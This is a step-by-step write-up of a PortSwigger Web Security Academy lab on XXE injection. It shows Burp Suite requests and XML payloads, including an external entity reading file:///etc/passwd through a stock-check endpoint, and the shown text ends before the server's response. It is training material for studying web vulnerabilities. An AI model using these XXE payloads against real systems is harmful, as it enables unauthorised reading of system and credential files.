





## Lab Information

**Platform:** PortSwigger Web Security Academy

**Topic:** XXE Injection

**Lab:** Exploiting XXE using external entities to retrieve files

**Difficulty:** Apprentice

**Objective:** Retrieve the contents of `/etc/passwd` using an XML External Entity (XXE) injection.

---

## 1. Lab Overview

The application contains a **"Check stock"** feature that accepts XML input.

The lab description states that the XML parser returns unexpected values in the response. The objective is to exploit an **XML External Entity (XXE)** vulnerability to read the contents of:

```
/etc/passwd
```



## 2. Finding the Vulnerable Request

I first interacted with the **Check stock** functionality while intercepting the request using **Burp Suite**.

The request was sent to:

```
POST /product/stock HTTP/2
```

The request contained XML data similar to:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

The application normally returns the stock information for the selected product and store.



## 3. Testing for XML Entity Processing

To determine whether the XML parser processes entities, I modified the XML document and introduced an entity reference.

The payload was:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [
    <!ENTITY test "test">
]>
<stockCheck>
    <productId>
        &test;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

However, when I initially referenced an undefined entity, the application returned an XML parser error:

```
The entity name must immediately follow the '&' in the entity reference.
```

This confirmed that the application was actively parsing the supplied XML rather than treating it as plain text.



---

## 4. Exploiting XXE

After confirming that entities were being processed, I created an **external entity** that points to the local `/etc/passwd` file.

The following payload was used:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [
    <!ENTITY bot SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>
        &bot;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

### Important part

The following declaration creates an external entity:

```xml
<!ENTITY bot SYSTEM "file:///etc/passwd">
```

Here:

- `bot` is the name of the entity.
- `SYSTEM` tells the XML parser that the entity references an external resource.
- `file:///etc/passwd` specifies the local file we want to read.

The entity is then referenced using:

```xml
&bot;
```

---

## 5. Sending the Payload

I sent the modified request through **Burp Suite Repeater**.

The important part of the request looked like this:

```
POST /product/stock HTTP/2
Content-Type: application/xml
```

With the XML payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [
    <!ENTITY bot SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>
        &bot;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

---


